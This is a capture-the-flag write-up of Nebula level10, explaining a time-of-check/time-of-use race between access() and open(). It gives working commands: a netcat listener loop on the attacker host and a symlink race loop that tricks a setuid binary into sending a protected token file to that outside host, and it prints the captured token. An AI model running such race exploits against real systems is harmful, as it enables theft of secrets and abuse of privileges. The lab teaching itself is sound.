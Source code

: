 In the home directory there is also a token file which we probably want to read. Since the briefing already hints at the system call we need to exploit, let's read the *access()* manpage:

* *int access(const char *pathname, int mode);*

> access() checks whether the calling process can access the file *pathname*.  If *pathname* is a symbolic link, it is dereferenced.

>  Warning: Using these calls to check if a user is authorized to, for example, open a file before actually doing so using *open(2)* creates a
> security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.  For this
> reason, the use of this system call should be avoided.

The type of vulnerability in this code is a time-of-check, time-of-use (TOCTOU) race condition. You can read more about it on [mitre.org](https://cwe.mitre.org/data/definitions/367.html). To summarize, the program checks the property of a file (in this case it checks if the user is allowed to read the file), and then performs an operation on it (reading, writing, etc.). But the file that is checked is referenced by its name, and not its file descriptor, meaning that the program is vulnerable in the interval between the call to *access()* and the call to *open()*, since the file that was passed to *access()* might not be the same as the one which *open()* will operate on.

First of all I wanted to test that the program will upload a file without problems, so I had netcat listen on my machine and created a file on the nebula system and tried to send it:

``` plain
level10@nebula:/home/flag10$ ./flag10 /tmp/tok 192.168.80.130
Connecting to 192.168.80.130:18211 .. Connected!
Sending file .. wrote file!
```

And on my netcat side:

``` plain
nc: connect to 192.168.80.130 18211 from 192.168.80.133 60491
.oO Oo.
blabla
```

So it worked just fine. The binary sent a banner and then the contents of the file. Now it's a matter of how to fool it into sending the token which we don't have permission to read. Well, what if the *access()* gives the ok to a file that I made, but when *open()* will try to read it, instead it will be a symbolic link to the token? After some trial and error, here's the solution that worked:

* first, on my host machine, I ran netcat in an infinite loop so that it will keep listening even when the other side closes the connection:

``` plain
root@kali:~# while true; do nc -nlp 18211; done
```

* on the Nebula machine, I ran this command:

``` plain
level10@nebula:/home/flag10$ while true; do touch /tmp/tok & ./flag10 /tmp/tok 192.168.80.130 & ln -fs /home/flag10/token /tmp/tok & rm -f /tmp/tok; done
```

This is another infinite loop that runs a series of commands in the background. A file named *tok* is created in */tmp/*, the flag10 binary attempts to send this file to my host, but there is also a symlink command that links *tok* to the token, and this might happen before or after the *access()* call. And finally, the *tok* file is removed. In the netcat window, you will see the output flying by, and besides the banner, you can see the token contents: <code>615a2ce1-b2b5-4c76-8eed-8aa5c4015c27</code>, when the timing is right.
